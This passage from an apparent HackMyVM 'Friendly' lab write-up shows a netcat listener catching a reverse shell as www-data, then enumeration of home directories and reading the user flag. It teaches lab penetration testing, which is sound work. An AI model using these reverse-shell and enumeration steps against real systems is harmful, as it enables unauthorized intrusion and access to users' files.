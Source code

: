 ![image](/assets/img/WriteUp/HackMyVM/Friendly/Pasted image 20230901224018.png){: width="700" height="400" }

After executing the command we should check our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Friendly]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.7] 42930
bash: cannot set terminal process group (434): Inappropriate ioctl for device
bash: no job control in this shell
www-data@friendly:/var/www/html$ 

```
We git a connection established from our victim machine. Let's see if we can discover any juicy files in the home directories.
```bash
www-data@friendly:/var/www/html$ ls /home -ahlR
ls /home -ahlR
/home:
total 12K
drwxr-xr-x  3 root    root    4.0K Feb 21  2023 .
drwxr-xr-x 18 root    root    4.0K Mar 11 04:00 ..
drwxr-xr-x  5 RiJaba1 RiJaba1 4.0K Mar 11 04:13 RiJaba1

/home/RiJaba1:
total 24K
drwxr-xr-x 5 RiJaba1 RiJaba1 4.0K Mar 11 04:13 .
drwxr-xr-x 3 root    root    4.0K Feb 21  2023 ..
lrwxrwxrwx 1 RiJaba1 RiJaba1    9 Feb 23  2023 .bash_history -> /dev/null
drwxr-xr-x 2 RiJaba1 RiJaba1 4.0K Mar 11 04:18 CTF
drwxr-xr-x 2 RiJaba1 RiJaba1 4.0K Mar 11 03:59 Private
drwxr-xr-x 2 RiJaba1 RiJaba1 4.0K Feb 21  2023 YouTube
-r--r--r-- 1 RiJaba1 RiJaba1   33 Mar 11 04:13 user.txt

/home/RiJaba1/CTF:
total 12K
drwxr-xr-x 2 RiJaba1 RiJaba1 4.0K Mar 11 04:18 .
drwxr-xr-x 5 RiJaba1 RiJaba1 4.0K Mar 11 04:13 ..
-r--r--r-- 1 RiJaba1 RiJaba1   21 Mar 11 04:18 ...

/home/RiJaba1/Private:
total 12K
drwxr-xr-x 2 RiJaba1 RiJaba1 4.0K Mar 11 03:59 .
drwxr-xr-x 5 RiJaba1 RiJaba1 4.0K Mar 11 04:13 ..
-r--r--r-- 1 RiJaba1 RiJaba1   45 Mar 11 03:59 targets.txt

/home/RiJaba1/YouTube:
total 12K
drwxr-xr-x 2 RiJaba1 RiJaba1 4.0K Feb 21  2023 .
drwxr-xr-x 5 RiJaba1 RiJaba1 4.0K Mar 11 04:13 ..
-r--r--r-- 1 RiJaba1 RiJaba1   41 Feb 21  2023 ideas.txt
www-data@friendly:/var/www/html$ 

```
There are some files readable for the whole world. One of them is the user flag, what we could open with the `cat` command.
```bash
www-data@friendly:/var/www/html$ cd /home/RiJaba1
cd /home/RiJaba1
www-data@friendly:/home/RiJaba1$ cat user.txt
cat user.txt
USER-FLAG-HAS-BEEN-CAPTURED

```
